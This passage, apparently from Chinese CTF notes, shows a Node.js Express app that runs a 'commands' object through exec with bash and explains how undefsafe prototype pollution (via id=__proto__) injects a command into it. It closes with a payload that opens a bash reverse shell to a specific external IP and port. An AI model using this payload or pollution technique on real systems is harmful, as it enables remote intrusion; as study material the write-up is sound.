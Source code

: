 ```JS
            "script-2": "free -m"
        };
        for (let index in commands) {
            exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
                if (err) {
                    return;
                }
                console.log(`stdout: ${stdout}`);
            });
        }
        res.send('OK');
        res.end();
    })


app.use(function(req, res, next) {
  res.status(404).send('Sorry cant find that!');
});


app.use(function(err, req, res, next) {
  console.error(err.stack);
  res.status(500).send('Something broke!');
});


const port = 8080;
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`))

```
undefsafe<2.03原型链污染漏洞
![](attachments/Pasted%20image%2020240331210434.png)

![](attachments/Pasted%20image%2020240331210548.png)
edit_note 传入`id=__proto__`,author为污染的内容
由于 commands 和 note_list 都继承自同一个原型，那么在遍历 commands 时便会取到我们污染进去的恶意命令并执行。
payload
`id=__proto__&author=bash -i >& /dev/tcp/49.232.206.37/23456 0>&1&raw=wum0nster`